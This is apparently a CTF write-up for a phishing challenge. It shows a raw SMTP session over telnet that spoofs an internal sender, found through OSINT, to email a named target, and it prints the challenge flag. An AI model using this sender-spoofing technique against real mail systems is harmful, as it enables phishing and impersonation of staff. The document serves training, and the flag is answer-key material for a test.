 ![red-phish-blue-phish-ss1.png](red-phish-blue-phish-ss1.png)

# Red Phish Blue Phish: Miscellaneous  

Author: Truman Kain (@truman.huntress), Adam Rice (@adam.huntress)  

You are to conduct a phishing excercise against our client, Pyrch Data.  

We've identified the Marketing Director, Sarah Williams (swilliams@pyrchdata.com), as a user susceptible to phishing.  

Are you able to successfully phish her? Remember your OSINT ;)  

```
NOTE: The port that becomes accessible upon challenge deployment is an SMTP server. Please use this for sending any phishing emails.  
You will not receive an email/human response as the mail infrastructure for this challenge is emulated.  
```  

Press the Start button on the top-right to begin this challenge.  

## SOLUTION:							    
Send a phishing email
> $ telnet challenge.ctf.games [port]  

> used telnet because netcat was broken  
```bash
Trying 35.193.148.143...
Connected to challenge.ctf.games.
Escape character is '^]'.
220 red-phish-blue-phish-20e3125859462627-7584c7974d-g697f Python SMTP 1.4.6

> HELO pyrchdata.com						## initiate mail process
250 red-phish-blue-phish-20e3125859462627-7584c7974d-g697f

> MAIL FROM: jdaveren@pyrchdata.com				## OSINT --> IT Security Manager
250 OK

> RCPT TO: swilliams@pyrchdata.com				## phishing target
250 OK

> DATA								## input data for phishing email
354 End data with <CR><LF>.<CR><LF>

> From: jdaveren@pyrchdata.com					## From: "convincing sender"
> To: swilliams@pyrchdata.com					## To: "phishing target"
> Subject: Urgent						##
> Optional filler text here.					##
> .								## send a period to submit email
								## this would break in netcat
250 OK. flag{54c6ec05ca19565754351b7fcf9c03b2}
```
